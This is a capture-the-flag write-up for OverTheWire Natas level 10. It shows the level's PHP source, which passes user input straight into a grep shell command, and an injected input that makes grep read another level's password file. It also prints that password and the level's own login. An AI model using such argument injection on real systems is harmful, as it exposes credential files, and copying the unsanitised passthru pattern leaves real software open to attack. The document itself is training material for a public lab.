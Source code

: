 # Natas Level 10

## 🧪 Credentials

- **URL**: `http://natas10.natas.labs.overthewire.org`
- **Username**: `natas10`
- **Password**: `t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`

---

## 🖥️ Steps

1. Login to the website.
2. let's see the source. here we see it filter certain characters, but still there is plenty of ways to go around this. if we submit `grep -i . /etc/natas_webpass/natas11 #` this should work.
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
3. submit this `. /etc/natas_webpass/natas11 #` then it'll give us the pass
```
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
```
---
[← Level 09](./level09.md) | [Level 11 →](./level11.md)
